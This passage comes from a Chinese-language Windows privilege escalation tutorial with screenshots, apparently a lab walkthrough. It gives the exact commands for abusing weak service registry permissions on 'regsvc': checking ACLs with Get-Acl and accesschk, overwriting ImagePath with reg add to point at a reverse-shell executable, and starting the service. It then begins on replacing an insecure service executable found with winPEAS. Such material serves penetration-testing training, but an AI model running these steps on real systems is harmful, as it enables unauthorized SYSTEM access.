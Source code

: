 ```php
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```

![image-20210706160207873](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-580807dbad90f8124280b39bdef4da2eb5cd7ccd.png)

##### 3. 或者 ，也可以使用accesschk.exe 来 确认：

```php
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

![image-20210706155114943](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a8061c21d5af33c0da37520a42920f240b3032e4.png)

##### 4.覆盖图像路径注册表密钥，以指向我们的反向外壳可执行：

```php
reg add  HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Users\user\Desktop\a002.exe /f
```

![image-20210706160321078](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e45d13b1f44cc126da3ede334d60dff1dc23aafe.png)

##### 5.启动服务触发漏洞进行反弹shell

```php
net start regsvc
```

![image-20210706160406327](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cafcf29dac673fde37e8f535c617b14e5406effc.png)

![image-20210706160354292](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ddedc09e5146a2bf0ad0354a28b3e0ffc19530c1.png)

### 4. 不安全的服务可执行

#### 前言

如果可执行的原始服务可由我们的用户修改，我们可以简单地用可执行的反向壳替换它。

请记住，如果您在真实系统中利用此备份，请创建原始可执行的备份

#### 实操

##### 1.运行winPEAS以检查服务配置错误： 问题

```php
.\winPEASany.exe quiet servicesinfo
```

##### 2.发现"filepermsvc"服务具有可执行项，似乎每个人都可以执行。我们可以用accesschk.exe 来确认这一点：

```php
.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

![image-20210706161510487](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f2dc30e7ac7f949286f60bbf5b14fd0c53efd4aa.png)
